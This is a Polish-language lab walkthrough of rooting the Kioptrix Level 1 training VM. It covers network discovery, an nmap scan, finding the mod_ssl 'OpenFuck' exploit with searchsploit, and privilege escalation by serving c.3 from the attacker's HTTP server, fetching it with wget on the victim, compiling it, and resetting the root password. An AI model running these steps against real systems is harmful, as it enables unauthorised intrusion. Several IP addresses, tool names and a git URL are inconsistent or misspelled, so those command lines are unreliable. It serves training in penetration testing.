









# 1. Zadanie 2 - Kioptrix Lvl 1

## Cel 1 - Znaleźć Kioptrix'a

 Po ustawieniu obydwu maszyn, Kali linuxa oraz Kioptrix’a ustawiam obydwie sieci na wewnętrzne, tak żeby maszyny się widziały i żebym nie widział niepotrzebnej reszty urządzeń w sieci. 
 
 Na początku na Kali Linuxie aby sprawdzić swój adres ip w sieci (i adres sieci) wpisuję komendę: ```ip a``` 
 
 Z wyniku dowiaduje się że moje ip to: `192.16.64.2/24`, co znaczy że adres mojej sieci to `192.16.64`
 
 przeszukuję tą sieć używając `netdiscovery -r 192.16.64` i dostaję taki wynik:


Mamy już IP ofiary

 ## Cel 2 - Zidentyfikować Ofiarę

Dowiemy się conieco o niej korzystając z narzędzia **nmap** wyszukując jej czułe punkty, pozyskując jednocześnie informację o otwartych portach za pomocą: `nmap -v 192.168.64.1`

Po jej wykonaniu otrzymujemy piękną liste otwartych portów które są otwarte niczym drzwi do chaty:


## Cel 3 - Znaleźć słabość

Mamy czułe punkty, teraz trzeba wiedzieć który wykorzystać.

 Do tego wystarcz znaleźć w internecie kod który po wukonaniu dostanie się przez te luki w zabezpieczeniach do środka, używamy do tego narzędzia **searchexploit**, w którym mamy historię włamań wraz z dziurą w systemie i gotowym kodem który ktoś napisał wykorzystując konkretną lukę w oprogramowaniu. 

Ale najpierw szybki update bazy danych więc wbijam komendę `searchexploit --update`, żeby mi przegrał wszystkie exploit'y na dysk lokalny.

## Cel 4 - Znaleźć exploit

Aby to uczynić musimy przeszukać bazę komendą `searchsploit [no to szukamy]`. Ja widzę że mod_ssql jest stary i tak znajduję gotowe exploity 



Pobieram 47080.c przy użyciu `searchsploit -m 47080.c` który kopiuje się do mojego folderu domowego **/mlq**

Teraz potrzebujemy skompilować skrypt w języku **C** aby go uruchomić.
Niestety nowy kompilator **gcc** w kali nie da rady skompilować przestarzałego pliku tak aby go otwrzył.


Z tego powodu przeszukuję i pobieram nowy plik na GH ten sam tylko zakutalizowany, z tą samą nazwą za pomocą komendy:
`git clone github.com/expolit-inters/openfuck`

## Cel 5 - Uzyskać root'a

Uruchamiam pobrany i skompilowany exploit, celując w odpowiednią wersję systemu (RedHat) i adres IP ofiary. Atak pozwala mi uzyskać dostęp do powłoki:



 ale na początku jestem tylko zwykłym użytkownikiem (użytkownik apache lub nobody).

Aby stać się administratorem (root), exploit próbuje automatycznie pobrać i uruchomić plik: **c.3**. Niestety, Kioptrix jest zbyt stary, by obsłużyć nowoczesne połączenia HTTPS, więc automatyczne pobieranie zawodzi. Muszę to zrobić ręcznie wystawiając mini server.

- Na Kali Linux uruchamiam prosty serwer HTTP w folderze z exploitem:

`python3 -m http.server 80`

- Na Kioptrixie (w uzyskanej powłoce) przechodzę do katalogu tymczasowego i pobieram plik od siebie:

`wget http://192.168.65.2/c.3`

- Kompiluję go na maszynie ofiary i uruchamiam:

`gcc -o exploit c.3`



Po uruchomieniu **exploit** następuje eskalacja uprawnień. Znak zachęty zmienia się na #, a komenda whoami zwraca upragniony wynik: root.




Następnie żeby zmiany były na stałe zmieniam mu hasło `passswd` i dla potwierdzenia że zadziałało loguje się przez vm kioptrixa.



## Flaga

Teraz sprawdzam zawartość flagi idąc do folderu `mail` i zczytując plik `root` jak w instrukcji:

